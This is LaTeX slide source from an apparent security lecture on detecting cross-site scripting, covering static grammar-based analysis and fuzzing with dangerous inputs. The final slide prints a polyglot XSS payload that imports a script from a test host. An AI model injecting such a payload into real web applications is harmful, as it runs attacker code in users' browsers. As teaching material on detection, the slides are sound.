\begin{frame}{XSS detection}
    \begin{itemize}
    \item static/dynamic program analysis
    \item trying `dangerous' inputs
    \end{itemize}
\end{frame}

\begin{frame}{static program analysis example}
    \begin{itemize}
    \item Wasserman and Su, ``Static Detection of Cross-Site Scripting Vulnerabilitiues (ICSE'08)
    \item try to summarize program string operations as context-free grammar (see DMT2)
        \begin{itemize}
        \item summary: context-free grammar = string building rules
        \end{itemize}
    \item mark where user input is in that grammar
    \item try to solve if way for context-free grammar to include script tag, etc. with user input
    \end{itemize}
\end{frame}

\begin{frame}

\includegraphics[width=\textwidth]{../web/wassermann-fig1-2}
\end{frame}

\begin{frame}{dangerous inputs}
    \begin{itemize}
    \item just try to put code in inputs
    \item see if browser runs it\ldots
    \vspace{.5cm}
    \item relatively simple, but\ldots
    \end{itemize}
\end{frame}

\begin{frame}[fragile]{dangerous inputs: context}
\begin{itemize}
\item problem: need to match context!
\end{itemize}
\begin{Verbatim}[fontsize=\small]
<a href=USER INPUT>
<style type="text/css"
p.some-class {
    font: "USER INPUT", Helvetica, serif;
}
</style>
<script>
if (x == "USER INPUT") {
    ...
}
</script>
\end{Verbatim}
\end{frame}

\begin{frame}{a recent paper}

\includegraphics[width=\textwidth]{../web/kirchner-title}
\end{frame}

\begin{frame}[fragile]{example input}
(with added newlines)
\begin{Verbatim}
jaVasCript:/*-/*`/*\\`/*'/*\"/**/(/* */oNcliCk=
import('http://testbed:8080/xss.js') )//%0D%0A
%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>
\x3csVg/
<sVg/oNloAd=import('http://testbed:8080/xss.js')//>\x3e
\end{Verbatim}
\end{frame}
